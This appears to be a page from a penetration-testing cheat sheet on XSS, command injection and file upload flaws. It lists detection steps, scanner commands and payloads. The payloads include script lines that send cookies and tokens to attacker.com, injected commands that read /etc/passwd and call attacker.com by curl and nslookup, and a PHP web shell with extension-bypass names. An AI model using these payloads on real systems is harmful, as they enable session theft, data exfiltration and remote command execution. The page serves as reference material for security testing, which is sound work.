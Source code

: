 ## **XSS**
*Present when: User input reflected in HTML without proper encoding*
Also see [Cross-Site Scripting (XSS)](../../Web%20Application/Injections/Cross-Site%20Scripting%20(XSS).md)
**Manual:** Insert `<script>alert(1)</script>` in all inputs, check response
**Automated:**
```bash
xsser --url="target.com/search?q=" -p
nuclei -u target.com -t xss/
dalfox url target.com
```

**Exploit:**
```html
<script>alert(document.cookie)</script>
<img src=x onerror=fetch('//attacker.com/'+document.cookie)>
<svg onload=location='//attacker.com/?'+localStorage.getItem('token')>
```

## **COMMAND INJECTION**
*Present when: User input passed to system commands without sanitization*
Also see: [Command Injection](../../Web%20Application/Injections/Command%20Injection.md)
**Manual:** Test with `;`, `&&`, `|` followed by commands like `whoami`
**Automated:**
```bash
commix --url="target.com/ping?host=127.0.0.1"
nuclei -u target.com -t command-injection/
```

**Exploit:**
```bash
; whoami
&& id
| cat /etc/passwd
`curl attacker.com/$(whoami)`
$(nslookup whoami.attacker.com)
```

## **FILE UPLOAD**
*Present when: File uploads lack proper validation and execution prevention*
Also see: [Insecure File Uploads](../../Web%20Application/Insecure%20File%20Uploads.md)
**Manual:** Upload various file types, check execution in upload directory
**Automated:**
```bash
fuxploider --url target.com/upload
nuclei -u target.com -t file-upload/
```

**Exploit:**
```php
# Shell upload
shell.php: <?php system($_GET['cmd']); ?>

# Bypass techniques
shell.php%00.jpg
shell.Php
shell.phtml
GIF89a;<?php system($_GET['cmd']);?>
```
